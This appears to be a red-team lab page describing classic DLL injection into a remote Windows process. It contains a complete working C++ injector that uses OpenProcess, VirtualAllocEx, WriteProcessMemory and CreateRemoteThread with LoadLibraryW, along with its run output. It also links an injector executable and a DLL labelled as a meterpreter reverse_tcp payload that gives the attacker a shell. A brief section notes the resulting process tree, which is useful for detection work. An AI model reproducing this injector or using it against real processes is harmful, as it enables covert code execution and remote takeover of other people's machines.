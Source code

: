 # DLL Injection

This lab attempts a classic DLL injection into a remote process.

## Execution

{% code-tabs %}
{% code-tabs-item title="inject-dll.cpp" %}
```cpp
int main(int argc, char *argv[]) {
	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
	
	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);	
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE hThread = CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle); 
	
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacker receiving a shell from the injected process:

![](../../.gitbook/assets/inject-dll-shell.png)

{% file src="../../.gitbook/assets/inject1.exe" caption="DLL injector.exe" %}

{% file src="../../.gitbook/assets/evilm64.dll" caption="c:\\experiments\\evilm64.dll \(windows/x64/meterpreter/reverse\_tcp\)" %}

## Observations

Note how the notepad spawned rundll32 which then spawned a cmd.exe because of the meterpreter payload \(and attacker's `shell` command\) that got executed as part of the injected evilm64.dll into the notepad process:

![](../../.gitbook/assets/inject-dll.png)

![](../../.gitbook/assets/inject-dll-procmon.png)

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/ms683212\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"GetProcAddress function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/ms684175\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"LoadLibrary function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}



